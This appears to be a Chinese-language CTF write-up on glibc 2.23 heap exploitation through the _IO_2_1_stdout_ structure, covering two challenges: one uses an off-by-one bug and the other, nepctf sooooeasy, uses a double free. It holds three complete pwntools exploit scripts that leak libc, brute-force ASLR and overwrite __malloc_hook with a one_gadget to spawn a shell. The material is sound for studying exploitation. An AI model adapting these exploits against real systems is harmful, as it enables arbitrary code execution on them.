





在做heap时有时候并没有自带的输出模块，所以打_IO_2_1_stdout\_成了一种常用手段。一般只出现在glibc2.23版本下glibc2.27下aslr随机的位数比较多爆破概率比较小，没算错的话应该时1/4096，而2.23的情况下是1/16。

这里记录两道例题，也忘了是哪里的题了，反正模板题。以便以后快速复现把

一道off-by-one配合\_IO\_2\_1\_stdout，一道double free配合\_IO\_2\_1\_stdout

## 例题1

**关键字：_IO_2_1_stdout\_、off-by-one**

功能很少，就一个add和delete，add的时候存在off-by-one







核心是堆块的布局，通过off-by-one修改堆块的大小来造成堆块的堆叠(smallbin和fastbin重叠)。具体构造见exp。

泄露之后既可以通过double free来劫持\_\_malloc\_hook（exp1），也可以故技重施来劫持\_\_malloc\_hook(exp2)，最后在申请一次堆块就能getshell

比较关键的点：add(2,0x50,'\xdd\xb5')，这里虽然申请0x60大小的堆，但由于unsortedbin中的堆块大小为0x70，glibc为了防止碎片过多malloc到的堆块大小为0x70。


exp1

```python
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget=[0x45226,0x4527a,0xf0364,0xf1207]
def add(index,size,content='\x00'):
	p.sendlineafter('>>>\n','1')
	p.sendlineafter('idx:\n',str(index))
	p.sendlineafter('len:\n',str(size))
	p.sendafter('content:\n',content)

def delete(index):
	p.sendlineafter('>>>\n','2')
	p.sendlineafter('idx:\n',str(index))

def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def pwn():
	add(0,0x20)
	add(1,0x20)
	add(2,0x60)
	add(3,0x20)
	delete(0)
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x20)
	add(2,0x50,'\xdd\xb5')
	add(4,0x60)
	add(5,0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	
#=========================leak=============================
	p.recv(0x40)
	leak = u64(p.recv(8))
	libcbase = leak - 0x3c5600
	malloc_hook = libcbase + libc.sym['__malloc_hook']
	one = libcbase + one_gadget[3]
	pr('libcbase',libcbase)
	
#==========================================================
	add(6,0x60)
	delete(2)
	delete(6)
	delete(4)
	add(7,0x60,p64(malloc_hook-0x23))
	add(8,0x60)
	add(9,0x60)
	add(10,0x60,'a'*0x13+p64(one))
	#gdb.attach(p)

	p.interactive()

while True:
	try:
		global p
		p = process('./pwn')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```


exp2

```python
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget=[0x45226,0x4527a,0xf0364,0xf1207]
def add(index,size,content):
	p.sendlineafter('>>>\n','1')
	p.sendlineafter('idx:\n',str(index))
	p.sendlineafter('len:\n',str(size))
	p.sendafter('content:\n',content)

def delete(index):
	p.sendlineafter('>>>\n','2')
	p.sendlineafter('idx:\n',str(index))

def pr(str1,addr):
	log.success(str1+'===>'+hex(addr))

def pwn():
	add(0,0x28,'\x00')
	add(1,0x28,'\x00')
	add(2,0x60,'\x00')
	add(3,0x28,'\x00')
	
	delete(0)
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x28,'\x00')
	add(2,0x50,'\xdd\xb5')
	add(2,0x60,'\x00')
	add(2,0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	p.recv(0x40)
	leak = u64(p.recv(8))
	libcbase = leak - 0x3c5600
	pr('libcbase',libcbase)
	for i in range(4):
		one_gadget[i] += libcbase
		pr('one_gadget'+str(i),one_gadget[i])
	malloc_hook = libcbase + libc.sym['__malloc_hook']
	pr('malloc_hook',malloc_hook)

	#gdb.attach(p)	
	add(0,0x28,'\x00')
	add(1,0x28,'\x00')
	add(2,0x60,'\x00')
	add(3,0x28,'\x00')
	
	delete(0)
	delete(2)
	add(0,0x28,'a'*0x28+'\xa1')
	delete(1)
	add(1,0x28,'\x00')
	add(2,0x50,p64(malloc_hook-0x23))
	add(2,0x60,'\x00')
	add(2,0x60,'a'*0x13+p64(one_gadget[3]))
	p.interactive()

while True:
	try:
		global p
		p = process('./pwn')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```


## 例题二：nepctf sooooeasy

**关键字：_IO_2_1_stdout\_、double free**

逻辑也很简单，只有add和delete，存在double free，本来想double free修改size来做，但这样会变得很麻烦，而且申请的堆块太多了，大于题目要求，看了wp发现了更好的堆块分布，确实是非常好的利用思路。






exp

```python
from pwn import*
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=0.5)

#p = remote('',)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def add(name_size,name='a',message='b'):
	p.sendlineafter('choice : ','1')
	p.sendlineafter('your name: \n',str(name_size))
	p.sendafter('Your name:\n',name)
	p.sendlineafter('Your message:\n',message)
def delete(idx):
	p.sendlineafter('choice : ','2')
	p.sendlineafter('index:',str(idx))
def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def pwn():
	add(0x60)
	add(0x90)
	add(0x60)
	delete(1)
	add(0x60,'\xdd\x25')
	delete(0)
	delete(2)
	delete(0)
	add(0x60,'\x00')
	add(0x60)
	add(0x60)
	add(0x60)
	add(0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c5600
	libc_realloc = libcbase + libc.sym['__libc_realloc']
	malloc_hook = libcbase + libc.sym['__malloc_hook']
	one = libcbase + [0x45226,0x4527a,0xf0364,0xf1207][1]
	pr('libcbase',libcbase)
	pr('malloc_hook',malloc_hook)
	pr('one',one)
	delete(0)
	delete(2)
	delete(0)
	add(0x60,p64(malloc_hook-0x23))
	add(0x60)
	add(0x60)
	add(0x60,'a'*11+p64(one)+p64(libc_realloc+13))
	p.sendlineafter('choice : ','1')
	#gdb.attach(p,'b *'+str(one))
	p.interactive()
while True:
	try:
		global p
		p = process('./sooooeasy')
		pwn()
		break
		
	except:
		p.close()
		print 'trying...'
```

